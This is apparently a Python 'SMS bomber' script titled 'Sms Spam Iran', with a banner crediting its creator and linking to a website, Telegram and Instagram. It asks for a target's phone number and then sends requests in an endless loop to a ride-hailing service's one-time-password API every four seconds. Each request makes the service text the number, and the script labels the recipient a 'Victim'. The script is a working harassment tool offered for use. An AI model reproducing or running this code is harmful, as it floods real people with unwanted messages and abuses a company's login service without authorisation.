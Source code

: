 print("""                                
  ___ ___  ___ ___ _    ___ __ _  ___
 (_-</ _ \/ _ `/  ' \  (_-</  ' \(_-<
/___/ .__/\_,_/_/_/_/ /___/_/_/_/___/
   /_/                               
# Sms Spam Iran #
Creator : Milad Ranjbar
WebSite : CyberAmooz.Com
Telegram : t.me/CyberAmooz
Instagram : instagram.com/CyberAmooz
....................................
""")

import requests
import time

try:
    print("Note : For Exit Tools ==> Ctrl + C \n")
    NumberPhone = input("Enter Number Phone (ex: 9170000000) = ")

    if NumberPhone == "" :
        print("\n[!] Please Enter Phone Number")
    else :
        url = "https://app.snapp.taxi/api/api-passenger-oauth/v2/otp"
        data = {"cellphone":"+98" + NumberPhone}

    while True:
        requests.post(url,data=data)
        print("[+] Send SMS For Victim")
        time.sleep(4)
except:
    print("\n[-] You Exit Tools !!")
